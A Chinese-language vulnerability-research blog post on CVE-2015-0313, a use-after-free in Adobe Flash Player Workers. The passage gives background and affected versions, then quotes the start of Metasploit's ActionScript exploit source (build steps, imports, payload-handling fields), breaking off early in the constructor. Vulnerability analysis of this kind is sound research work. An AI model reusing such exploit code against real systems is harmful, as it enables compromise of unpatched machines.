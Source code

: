 ```yaml
---
title: CVE-2015-0313 漏洞研究
toc: true
categories: Vulnerability Investigation
abbrlink: a62d9a06
date: 2025-05-05 18:53:57
updated: 2025-05-05 18:53:57
---
```


趋势科技公司于 2015 年 2 月曝光了一个 Adobe Flash 0day 被外部恶意利用的信息，访问被该漏洞挂马的网站会自动下载恶意软件或弹出恶意广告等，影响甚广。该 Adobe Flash 0day 被命名为 CVE-2015-0313 Adobe Flash Player Workers ByteArray UAF 漏洞，其漏洞利用能够让攻击者实现任意代码执行

影响范围：

Adobe Flash Player before 13.0.0.269 and 14.x through 16.x before 16.0.0.305 on Windows and OS X and before 11.2.202.442 on Linux

## 漏洞分析

开启 hpa 调试运行 FlashPlayer 并打开样本，程序因触发 Access Violation 异常而崩溃。逆向 AVM 有点折磨所以直接从[样本](https://github.com/rapid7/metasploit-framework/blob/master/external/source/exploits/CVE-2015-0313/Exploit.as)源码入手进行分析

```ActionScript
// Build how to:
// 1. Download the AIRSDK, and use its compiler.
// 2. Be support to support 16.0 as target-player (flex-config.xml).
// 3. Download the Flex SDK (4.6)
// 4. Copy the Flex SDK libs (<FLEX_SDK>/framework/libs) to the AIRSDK folder (<AIR_SDK>/framework/libs)
//      (all of them, also, subfolders, specially mx, necessary for the Base64Decoder)
// 5. Build with: mxmlc -o msf.swf Main.as

// Original code by @hdarwin89 // http://hacklab.kr/flash-cve-2015-0313-%EB%B6%84%EC%84%9D/
// Modified to be used from msf
package
{
import flash.display.Sprite
import flash.display.LoaderInfo
import flash.events.Event
import flash.utils.ByteArray
import flash.system.Worker
import flash.system.WorkerDomain
import flash.system.MessageChannel
import flash.system.ApplicationDomain
import avm2.intrinsics.memory.casi32
import mx.utils.Base64Decoder

public class Exploit extends Sprite
{
    private var ov:Vector.<Object> = new Vector.<Object>(80000)
    private var uv:Vector.<uint>
    private var ba:ByteArray = new ByteArray()
    private var worker:Worker
    private var mc:MessageChannel
    private var b64:Base64Decoder = new Base64Decoder()
    private var payload:ByteArray
    private var platform:String
    private var os:String
    private var exploiter:Exploiter

    public function Exploit()
    {
        if (Worker.current.isPrimordial) mainThread() //* 在构造函数中判断是否为主线程并分别执行对应函数
```